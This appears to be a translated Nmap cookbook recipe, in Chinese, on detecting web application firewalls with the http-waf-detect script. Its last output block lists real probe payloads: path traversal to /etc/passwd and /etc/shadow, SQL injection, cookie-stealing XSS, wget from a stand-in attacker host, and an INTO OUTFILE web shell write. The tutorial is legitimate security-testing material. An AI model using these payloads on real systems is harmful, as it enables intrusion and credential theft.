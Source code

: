 此配方演示如何使用 Nmap 检测数据包过滤系统，如 Web 应用程序防火墙或入侵防御系统。

## 怎么做。。。

要检测 Web 应用程序防火墙或入侵防御系统，请执行以下操作：

```
$ nmap -p80 --script http-waf-detect <target>

```

脚本`http-waf-detect`将告诉您是否检测到数据包过滤系统：

```
PORT   STATE SERVICE
80/tcp open  http
|_http-waf-detect: IDS/IPS/WAF detected

```

## 它是如何工作的。。。

如果发现 web 服务器在端口 80 上运行，参数`-p80 --script http-waf-detect`将启动 NSE 脚本`http-waf-detect`。我开发了`http-waf-detect`来确定带有恶意有效负载的 HTTP 请求是否被 web 应用程序防火墙（WAFs）或入侵防御系统（IPSs）过滤。

该脚本通过保存安全 HTTP`GET`请求的状态代码（可选）和页面正文，并将其与包含最常见 web 应用程序漏洞的攻击有效载荷的请求进行比较。由于每个恶意有效负载都存储在一个奇数变量名中，因此 web 应用程序不太可能使用它，并且只有数据包过滤系统会做出反应并改变任何返回的状态代码，以接收 HTTP 状态代码 403（禁止）或页面内容。

## 还有更多。。。

要检测响应正文中的更改，请使用参数`http-waf-detect.detectBodyChanges`。我建议您在处理动态内容很少的页面时启用它：

```
$ nmap -p80 --script http-waf-detect --script-args="http-waf-detect.detectBodyChanges" <target>

```

要包含更多攻击有效载荷，请使用脚本参数`http-waf-detect.aggro`。此模式会生成更多 HTTP 请求，但也会触发更多产品：

```
$ nmap -p80 --script http-waf-detect --script-args="http-waf-detect.aggro" <target>
Initiating NSE at 23:03
NSE: http-waf-detect: Requesting URI /abc.php
NSE: Final http cache size (1160 bytes) of max size of 1000000
NSE: Probing with payload:?p4yl04d=../../../../../../../../../../../../../../../../../etc/passwd
NSE: Probing with payload:?p4yl04d2=1%20UNION%20ALL%20SELECT%201,2,3,table_name%20FROM%20information_schema.tables
NSE: Probing with payload:?p4yl04d3=<script>alert(document.cookie)</script>
NSE: Probing with payload:?p4yl04d=cat%20/etc/shadow
NSE: Probing with payload:?p4yl04d=id;uname%20-a
NSE: Probing with payload:?p4yl04d=<?php%20phpinfo();%20?>
NSE: Probing with payload:?p4yl04d='%20OR%20'A'='A
NSE: Probing with payload:?p4yl04d=http://google.com
NSE: Probing with payload:?p4yl04d=http://evilsite.com/evilfile.php
NSE: Probing with payload:?p4yl04d=cat%20/etc/passwd
NSE: Probing with payload:?p4yl04d=ping%20google.com
NSE: Probing with payload:?p4yl04d=hostname%00
NSE: Probing with payload:?p4yl04d=<img%20src='x'%20onerror=alert(document.cookie)%20/>
NSE: Probing with payload:?p4yl04d=wget%20http://ev1l.com/xpl01t.txt
NSE: Probing with payload:?p4yl04d=UNION%20SELECT%20'<?%20system($_GET['command']);%20?>',2,3%20INTO%20OUTFILE%20'/var/www/w3bsh3ll.php'--

```
